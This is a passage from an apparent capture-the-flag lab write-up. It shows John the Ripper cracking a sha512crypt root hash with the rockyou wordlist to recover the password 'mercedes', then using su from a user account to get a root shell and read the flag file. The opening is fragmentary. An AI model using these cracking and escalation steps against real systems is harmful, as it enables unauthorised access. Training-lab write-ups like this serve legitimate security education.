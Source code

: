 ```bash
99999
7
```

The hashes are looking well-known. Maybe john can crack it.

### from john to root
```bash
kali@kali:~$ sudo john --format=sha512crypt -w /usr/share/wordlists/rockyou.txt pw.hash 
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-05-07 14:55) 5.000g/s 5120p/s 5120c/s 5120C/s crystal..random
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

mercedes is the password of root but a login over ssh is not possible.

su as robert
```bash
robert@obscure:/tmp$ su
Password: 
root@obscure:/tmp# wc /root/root.txt 
 1  1 33 /root/root.txt
```